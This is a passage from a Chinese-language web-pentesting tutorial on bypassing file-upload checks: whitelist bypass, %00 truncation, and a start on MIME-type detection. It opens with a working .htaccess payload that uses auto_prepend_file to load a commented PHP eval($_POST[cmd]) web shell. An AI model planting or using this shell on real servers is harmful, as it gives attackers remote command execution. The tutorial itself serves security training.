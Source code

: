 * 利用.htaccess进行文件包含

使用#注释使得.htaccess能够成功解析

```
php_value auto_prepend_file ".htaccess"
#<?php eval($_POST[cmd]);?>
```

\---------------------------------------------------------------------------------------------------------------------

### <mark style="color:orange;background-color:yellow;">②白名单检测</mark>

白名单就是希望有的，里面会包含允许通过的。

#### <mark style="color:green;">0x01：姿势一：解析漏洞</mark>

就是上面提到的那些，不多写了。

#### <mark style="color:green;">0x02：姿势二：截断上传</mark>

就是上面提过的%00截断上传。

***

## <mark style="color:yellow;background-color:green;">3）后端检测之00截断</mark>

就是之前提到的%00截断，也不多说了。

***

## <mark style="color:yellow;background-color:green;">4）后端检测之MIME检测</mark>

首先还是解释mime type是什么

> `MIME(Multipurpose Internet Mail Extensions)`​多用途互联网邮件扩展类型。是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定应用程序来打开。

也就是我们在用bp抓包时会看到content-type。

### <mark style="color:orange;background-color:yellow;">①常见的mime-type</mark>

* `text/plain`​ （纯文本）&#x20;
* `text/html`​ （HTML文档）&#x20;
* `text/javascript`​ （js代码）
* &#x20;`application/xhtml+xml`​ （XHTML文档）&#x20;
* `image/gif`​ （GIF图像）
* &#x20;`image/jpeg`​ （JPEG图像）&#x20;
* `image/png`​ （PNG图像）&#x20;
* `video/mpeg`​ （MPEG动画）
* &#x20;`application/octet-stream`​ （二进制数据）&#x20;
* `application/pdf`​ （PDF文档）
